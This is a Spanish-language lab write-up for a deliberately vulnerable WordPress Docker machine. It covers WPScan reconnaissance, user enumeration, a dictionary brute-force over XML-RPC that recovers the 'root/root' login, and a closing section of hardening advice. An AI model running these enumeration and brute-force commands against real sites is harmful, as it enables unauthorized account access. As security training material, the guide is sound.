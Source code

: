 = Pereza
:author: Manuel L. Quero
:revdate: 2025-04-13
:toc: left
:doctype: book

<<<

== WordPress y sus vulnerabilidades

WordPress es un sistema de gestión de contenidos (CMS) gratuito y de código abierto que permite a cualquier persona crear y administrar sitios web con facilidad. Originalmente concebido como una plataforma de blogs en 2003, ha evolucionado hasta convertirse en una de las herramientas más versátiles para desarrollar desde simples sitios personales hasta complejas tiendas de comercio electrónico.

Sin embargo, su enorme popularidad (más del 40% de los sitios web del mundo utilizan WordPress) lo convierte en un blanco constante para ciberdelincuentes. Esta popularidad, sumada a una comunidad diversa de desarrolladores de plugins y temas, ha generado un entorno en el que las configuraciones por defecto, credenciales débiles, plugins vulnerables o versiones sin actualizar pueden dejar expuesto un sitio web con facilidad.

=== Vulnerabilidades comunes en WordPress

* *Uso de credenciales por defecto o débiles* -> Muchos administradores dejan el nombre de usuario “admin” y contraseñas como “admin123” o “password”, facilitando ataques de fuerza bruta.

* *Plugins y temas vulnerables* -> WordPress permite ampliar su funcionalidad con plugins, muchos de los cuales son desarrollados por terceros. Cuando no se actualizan con frecuencia o tienen malas prácticas de seguridad, pueden introducir fallos críticos.

* *Versiones desactualizadas del núcleo de WordPress* -> Al no aplicar parches de seguridad, se dejan abiertas puertas ya conocidas y documentadas.

* *Configuraciones por defecto* -> Instalaciones que dejan habilitado el acceso público a /wp-admin o la API REST sin restricciones pueden ser explotadas para enumerar usuarios o realizar ataques automatizados.

=== Ataques frecuentes

Entre los ataques más comunes se encuentran:

* Fuerza bruta contra el panel de login

* Cross-Site Scripting (XSS)

* Inyecciones SQL (especialmente en plugins mal desarrollados)

* Carga de archivos maliciosos

* Escalada de privilegios a través de bugs en extensiones

<<<

== Solucionar la máquina

En esta guía aprenderemos cómo analizar un sitio web desarrollado con WordPress para identificar posibles vulnerabilidades. Utilizaremos herramientas como WPScan para detectar configuraciones inseguras, plugins o temas desactualizados y otros puntos débiles comunes. Después se realizará un ataque de fuerza bruta como parte del reconocimiento activo, pero su explicación detallada se abordará en la sección correspondiente al círculo de la ira.

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, pereza.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh pereza.tar
----

=== WPscan

WPscan es una herramienta de escaneo de seguridad específica para sitios web construidos con WordPress. 

==== Descargar

Para descargar esta herramienta viene explicado en su https://github.com/wpscanteam/wpscan[github].

* *Gem* -> Esta es la opción más recomendada en caso de usar Kali Linux.

[source,bash]
----
$ sudo apt install ruby
$ sudo apt install build-essential libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev  libgmp-dev zlib1g-dev
$ gem install wpscan
$ gem update wpscan
----

* *Docker* -> En caso de usar otra distribución podemos descargarla por docker.

[source,bash]
----
$ docker pull wpscanteam/wpscan
$ docker run -it --rm wpscanteam/wpscan --url https://target.tld/ --enumerate (...)
----

En caso de usar distribuciones más extrañas puedes https://www.linuxbabe.com/security/install-wpscan-wp-vulnerability-scanner[ver esto].

WPscan es gratis pero mejora con la API, en caso que queramos hacer escaneos más exhaustivos -> https://wpscan.com/pricing/[ver aquí].

==== Reconocimiento

Una vez instalada nuestra herramienta, vamos a proceder a analizar la página.

Es importante saber que el login de WordPress está en /wp-admin. También esta /robots.txt que nos puede proporcionar información adicional.

===== 1. Reconocimiento general

Comenzamos realizando un escaneo general, principalmente para comprender cómo es la estructura, ver las cabeceras, ver si tiene XML-RPC, ver la versión de WordPress, y entre otras cosas que vamos a ver a continuación.

[source,bash]
----
$ wpscan --url http://localhost:8080
----

.WPscan General
[%collapsible]
====
[source,text]
----
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://localhost:8080/ [::1]
[+] Started: Sat Apr 12 19:05:48 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.62 (Debian)
 |  - X-Powered-By: PHP/8.2.28
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://localhost:8080/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://localhost:8080/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://localhost:8080/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://localhost:8080/?feed=rss2, <generator>https://wordpress.org/?v=6.7.2</generator>
 |  - http://localhost:8080/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.7.2</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://localhost:8080/wp-content/themes/twentytwentyfive/
 | Last Updated: 2025-02-11T00:00:00.000Z
 | Readme: http://localhost:8080/wp-content/themes/twentytwentyfive/readme.txt
 | [!] The version is out of date, the latest version is 1.1
 | Style URL: http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Apr 12 19:05:52 2025
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 44.104 KB
[+] Data Received: 253.503 KB
[+] Memory used: 269.578 MB
[+] Elapsed time: 00:00:03
----
====

* *[+] Headers*

Podemos ver cómo se están exponiendo cabeceras del servidor y del lenguaje utilizado. Gracias a esto podemos buscar CVEs para las versiones de estos servicios y explotarlos

----
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.2.28
----

* *[+] XML-RPC Enabled*

XML-RPC es un protocolo que permite a aplicaciones externas interactuar con WordPress (ej: publicación remota). Tener esta habilitado es altamente peligroso y explotable. 
Puede usarse para: ataques de fuerza bruta por amplificación, pingback DDoS o escaneo de usuarios.

----
http://localhost:8080/xmlrpc.php
----

* *[+] WordPress readme found*

Este archivo contiene la versión exacta de WordPress, lo que facilita identificar vulnerabilidades específicas de esa versión.

----
http://localhost:8080/readme.html
----

* *[+] External WP-Cron Enabled*

Permite ejecutar tareas programadas como publicar entradas, comprobar actualizaciones, etc. Si se abusa, puede ser usado para sobrecargar el servidor con peticiones constantes (DDoS).

----
http://localhost:8080/wp-cron.php
----

* *[+] WordPress version identified: 6.7.2*

La versión del CMS puede extraerse fácilmente de los feeds RSS. Conocer la versión nos facilita ataques específicos.

* *[+] WordPress Theme: twentytwentyfive*

La version está desactualizada: 1.0 (última: 1.1). Esto es inseguro ya que las versiones desactualizadas de temas pueden contener vulnerabilidades.

* *[i] No Plugins Encontrados*

En este caso no hay plugins con vulnerabilidades.

* *[+] Enumeración de Config Backups*

No se encontraron backups públicos.

===== 2. Reconocimiento de usuarios

En este escaneo, esperamos conseguir los usuarios que tienen acceso a wp-admin

[source,bash]
----
$ wpscan --url http://localhost:8080 --enumerate u
----

.WPscan Usuarios
[%collapsible]
====
[source,text]
----
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] root
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] accidia
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
----
====

He cogido directamente la parte de los usuarios, ya que vuelve hacer un escaner general, y eso ya ha sido explicado anteriormente.

Como podemos observar hemos obtenido dos usuarios que son *root* y *accidia*, gracias a esto podemos realizar ataques de fuerza bruta.

* *Enumeración pasiva (RSS Generator)* -> Al acceder al feed RSS (/?feed=rss2), WordPress expone automáticamente metadatos que incluyen el autor de las entradas. Por eso WPScan identificó al usuario root sin necesidad de interactuar directamente con la web.

* *Enumeración agresiva (Author Pattern)* -> WPScan hace peticiones a URLs como /author=1, /author=2, etc., y observa los redireccionamientos y títulos de las páginas para deducir el nombre de usuario. Así encontró accidia.

===== 3. Otros tipos de escaneos

Cómo ya hemos visto, wpscan es una herramienta muy poderosa contra páginas de WordPress, por eso voy a mostrar otros tipos de enumeración que nos pueden servir para obtener más información:

* *Escanear y enumerar plugins y temas*

[source,bash]
----
$ wpscan --url https://example.com --enumerate ap,at
----

ap -> all plugins.

at -> all templates.

* *Enumerar todas las vulnerabilidades*

[source,bash]
----
$ wpscan --url https://example.com --enumerate vp,vt,tt
----

vp -> vulnerable plugins.

vt -> vulnerable themes.

tt -> vulnerable timthumbs.

Una vez identificamos versiones vulnerables de plugins, temas u otros componentes, tenemos varias formas de continuar el ataque o la investigación:

* *Buscar vulnerabilidades manualmente*

Copiamos la versión del plugin/tema vulnerable y la buscamos en un navegador con términos como:

----
(plugin-name) (version) exploit o (plugin-name) CVE.
----

Es común encontrar repositorios en GitHub, foros o blogs donde se comparten proof of concept (PoC) o incluso exploits funcionales.

* *Usar bases de datos de exploits públicos*

https://www.exploit-db.com[Exploit-DB]: Es una base de datos de vulnerabilidades conocida que incluye descripciones técnicas, PoCs y a veces exploits completos. Buscar por nombre de plugin, tema o CVE detectado.

* *Usar SearchSploit (offline)*

https://www.exploit-db.com/searchsploit[SearchSploit] es una herramienta incluida en Kali Linux que permite buscar localmente en la base de datos de Exploit-DB:

[source,bash]
----
$ searchsploit nombre_del_plugin_o_vulnerabilidad
----

También permite mostrar o copiar el exploit directamente:

[source,bash]
----
$ searchsploit -m exploit/path
----

==== Ataque

Una vez obtenidos los usuarios, vamos a realizar un ataque de fuerza bruta con wpscan. Pero antes tenemos que saber que es un ataque de fuerza bruta.

Un ataque de fuerza bruta es un tipo de ataque que utiliza pruebas y errores para descifrar contraseñas, credenciales de inicio de sesión y claves de cifrado. Es una táctica simple pero confiable para obtener acceso no autorizado a cuentas individuales y sistemas y redes de organizaciones.

Estos ataques requieren mucho tiempo, especialmente cuando se utilizan contraseñas largas o complejas. Además este proceso puede consumir grandes cantidades de recursos del sistema (como la CPU y la memoria), lo que hace que el ataque sea lento y costoso en términos de rendimiento. Además son más faciles de detectar ya que generan grandes cantidades de tráfico de red o múltiples intentos de inicio de sesión fallidos.

Existen varios tipos, pero nosotros vamos a usar el ataque por diccionario, en este el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona.

Kali Linux viene con varios diccionarios preinstalados en la ruta /usr/share/wordlists, que forman parte de sus herramientas, podemos verlo más en detalle en el siguiente enlace https://www.kali.org/tools/wordlists/[Wordlists]. Recomiendo primeramente probar diccionarios pequeños, sobretodo si encontramos indicios de credenciales por defecto, ya que tardará menos que si utilizamos diccionarios más grandes como https://github.com/intelligencegroup-io/RockYou2024[rockyou 2024] con 9,948,575,739 contraseñas.

[source,bash]
----
$ wpscan --url https://localhost:8080 -U root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt
----

.WPscan Password
[%collapsible]
====
[source,text]
----
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - root / root                                                                                                                                                                     
Trying root / roost Time: 00:03:02 <=================================================                                                                > (38665 / 86268) 44.81%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: root, Password: root
----
====

Como podemos ver que el ataque lo realiza sobre Xmlrpc y que ha encontrado la contraseña root, por lo que probamos a ponerla:

image::assets/root.png[Metemos Credenciales]

image::assets/acceso.png[Acceso a WordPress]

Y como podemos ver, estamos dentro.

<<<

== ¿Cómo prevenir?

=== WordPress

WordPress al ser muy amplio, tiene muchas formas de mitigarlo, por lo que vamos a ver las más esenciales.

==== 1. Mantener WordPress, plugins y temas actualizados

WordPress es un software que se mantiene y actualiza con regularidad. Por defecto, WordPress instala automáticamente actualizaciones menores. Pero las versiones principales, debe iniciarse manualmente la actualización.

WordPress también incluye miles de plugins y temas que puedes instalar en tu sitio web. El mantenimiento de estos plugins y temas corre a cargo de desarrolladores externos, que también lanzan actualizaciones con regularidad.

==== 2. Utilizar contraseñas fuertes y únicas

Como ya hemos visto los intentos de pirateo de WordPress más comunes utilizan contraseñas robadas. Sin embargo, se puede dificultar utilizando contraseñas más seguras y únicas para el sitio web. Y no solo en WordPress sino en FTP, bases de datos, correos electrónicos asociados, etc. También se puede usar 2FA y gestores de contraseñas como Keepass.

==== 3. Limitar los intentos de inicio de sesión

Se puede restringir la cantidad de intentos fallidos de acceso para prevenir ataques de fuerza bruta. Plugins como https://wordpress.org/plugins/limit-login-attempts-reloaded/[Limit Login Attempts Reloaded] pueden ser muy utilies para esta tarea.

==== 4. Desactivar XML-RPC si no es necesario

XML-RPC es una API del núcleo de WordPress que ayuda a conectar tu sitio WordPress con aplicaciones web y móviles. Está activada / activa por defecto desde WordPress 3.5. Si esta API no se utiliza es muy recomendable desactivarlo. Existen varias formas, pero modificando el .htaccess es la más recomendable al no usar tantos recursos. Deberemos encontrar el archivo .htaccess y poner el siguiente código:

[source,text]
----
# Block WordPress xmlrpc.php requests
<Files xmlrpc.php>
order deny,allow
 deny from all
allow from 123.123.123.123
</Files>
----

Otra forma es usando el plugin  https://wordpress.org/plugins/disable-xml-rpc-api/[Disable XML-RPC-API].

==== 5. Instalar un firewall de aplicaciones web (WAF)

Cómo ya hemos visto en otras ocasiones un WAF es muy útil, pero no debemos confiar toda la seguridad a este, ya que existen formas de baipasearlo.

==== 6. Realizar copias de seguridad periódicas

Otra de las cosas que hemos visto durante el escaneo es la falta de backups, por lo que es recomendable realizar periodicamente estas copias de seguridad, ya que en caso de ransomware puede no afectarnos tanto, aunque depende de la metodología que se siga. Hay plugins como UpdraftPlus o BlogVault y almacenan las copias en ubicaciones externas como Dropbox o Amazon S3.

==== 7. Cambiar el prefijo de la base de datos

Modificar el prefijo por defecto (wp_) de las tablas de la base de datos dificulta los ataques automatizados que buscan estructuras estándar.

==== 8. Desactivar la edición de archivos desde el panel de administración

Esto previene que usuarios con acceso al panel modifiquen archivos críticos directamente desde el navegador.

==== 9. Proteger el archivo .htaccess y otros archivos sensibles

Es necesario restringir el acceso a archivos como .htaccess, wp-config.php y readme.html para evitar que se exponga información sensible.

==== 10. Utilizar un proveedor de alojamiento seguro

Existen servicios de hosting que ofrezcan medidas de seguridad robustas, como escaneos automáticos de malware, certificados SSL y soporte para actualizaciones automáticas.

En caso de querer saber más sobre cómo volver más seguro entornos de WordPress vease -> https://www.wpbeginner.com/es/wordpress-security/[Securizar WordPress].

----
"Si tu empresa gasta más en café que en seguridad TI, serás hackeado. Es más, merecerás ser hackeado."

— Eric S. Raymond
----